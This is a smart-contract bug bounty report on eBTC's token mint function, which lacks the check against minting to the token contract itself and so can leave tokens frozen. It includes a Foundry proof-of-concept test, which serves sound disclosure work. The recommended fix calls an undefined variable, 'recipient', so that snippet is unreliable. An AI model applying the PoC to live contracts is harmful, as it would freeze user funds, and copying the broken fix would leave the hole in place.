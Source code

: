 # EBTCToken.sol mint function lack of checks allows minting EBTC Tokens to itself ie to EBTCToken contract making it incompatible with transfer and transferFrom restrictions allowing EBTCToken EBTC balance to be positive and have funds frozen

Submitted 26 days ago by @cryptonoob2k (Whitehat) for Boost | eBTC

Report ID: #28890

Report type: Smart Contract

Has PoC?: Yes

Target: https://github.com/ebtc-protocol/ebtc/blob/release-0.7/packages/contracts/contracts/EBTCToken.sol

# Impacts

- Permanent freezing of funds

# Details

EBTCToken.sol mint function logic is incompatible with restrictions implemented in EBTCToken.sol::transfer and EBTCToken.sol::transferFrom methods that prevents EBTCToken holding EBTC tokens breaking EBTCToken balance restriction and leading to EBTC tokens funds stuck in contract unable to recover

# Brief/Intro

EBTCToken.sol::transfer and EBTCToken.sol::transferFrom methods implements restrictions to block users to send EBTC tokens to EBTCToken contract, thus ensuring EBTCToken contract EBTC balance always remains 0.
However this restriction can be bypassed using mint function.

# Vulnerability Details
The restriction inside transfer and transferFrom are implemented using the internal function `_requireValidRecipient`:

```
function _requireValidRecipient(address _recipient) internal view {
    require(
        _recipient != address(0) && _recipient != address(this),	// <@ block
        "EBTC: Cannot transfer tokens directly to the EBTC token contract or the zero address"
    );
    //...
}
```

This function ensures that EBTCToken's EBTC balance remains 0 because it blocks transfer to EBTCToken address:

```
contract EBTCToken is IEBTCToken, AuthNoOwner, PermitNonce {
	//...
    function transfer(address recipient, uint256 amount) external override returns (bool) {
        _requireValidRecipient(recipient);
        _transfer(msg.sender, recipient, amount);
        return true;
    }

    function transferFrom(
        address sender,
        address recipient,
        uint256 amount
    ) external override returns (bool) {
    	_requireValidRecipient(recipient);
        _transfer(sender, recipient, amount);
        //...
    }
```

However this restriction doesnt hold if a user mints tokens directly to this contract, because in mint function there isnt this check in place:

```
    function mint(address _account, uint256 _amount) external override {
        _requireCallerIsBOorCdpMOrAuth();	// <@ no restriction 
        _mint(_account, _amount);
    }

    function _mint(address account, uint256 amount) internal {
        require(account != address(0), "EBTCToken: mint to zero recipient!");

        _totalSupply = _totalSupply + amount;
        _balances[account] = _balances[account] + amount;
        emit Transfer(address(0), account, amount);
    }
```

# Impact Details
By using mint function to directly issue EBTC tokens to EBTCToken contract the restrictions implemented in transfer and transferFrom functions to keep EBTCToken balance to 0 are bypassed allowing EBTCToken contract to hold tokens and have EBTC tokens stuck in contract

# Risk Breakdown
The vulnerability is easy to exploit, however to exploit it mint capability is needed leading to stuck tokens in EBTCToken contract and balance restriction bypass

# Recommendation
Implement a restriction in mint function like the ones implemented in transfer and transferFrom function such as
```
    function mint(address _account, uint256 _amount) external override {
        _requireCallerIsBOorCdpMOrAuth();
       _requireValidRecipient(recipient);
        _mint(_account, _amount);
    }
```

# Proof of concept

Here is a foundry test file, save it in packages/contracts/foundry_test subdir and run it with:

```
forge test -vvv --match-contract EBTCTokenMintToItself
```

Code:
```
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.17;
import "forge-std/Test.sol";
import "../contracts/Dependencies/EbtcMath.sol";
import {eBTCBaseFixture} from "./BaseFixture.sol";

contract EBTCTokenMintToItself is eBTCBaseFixture {
    uint256 public mintAmount = 1e18;

    function setUp() public override {
        eBTCBaseFixture.setUp();
        eBTCBaseFixture.connectCoreContracts();
        eBTCBaseFixture.connectLQTYContractsToCore();
    }

    function testEBTCUserWithMintingPermisionCanMint() public {
        address user = _utils.getNextUserAddress();
        // Grant mint permissions to user
        vm.prank(defaultGovernance);
        authority.setUserRole(user, 1, true);

        // Starting balance
        uint256 totalSupply0 = eBTCToken.totalSupply();
        uint256 balanceOfeBTCToken0 = eBTCToken.balanceOf(address(eBTCToken));
        console.log("\n********** Starting balance ************");
        console.log("eBTCToken.balanceOf(address(eBTCToken)) ",eBTCToken.balanceOf(address(eBTCToken)));

        vm.startPrank(user);
        vm.deal(user, type(uint96).max);

        // User can mint to eBTCToken
        eBTCToken.mint(address(eBTCToken), mintAmount);

        vm.stopPrank();

        // Check balance
        uint256 totalSupply1 = eBTCToken.totalSupply();
        uint256 balanceOfeBTCToken1 = eBTCToken.balanceOf(address(eBTCToken));

        console.log("\n********** Final balance ************");
        console.log("eBTCToken.balanceOf(address(eBTCToken)) ",eBTCToken.balanceOf(address(eBTCToken)));

        assertEq(totalSupply1 - totalSupply0, mintAmount);
        assertEq(balanceOfeBTCToken1 - balanceOfeBTCToken0, mintAmount);
        assertGt(balanceOfeBTCToken1,0);
    }
}
```
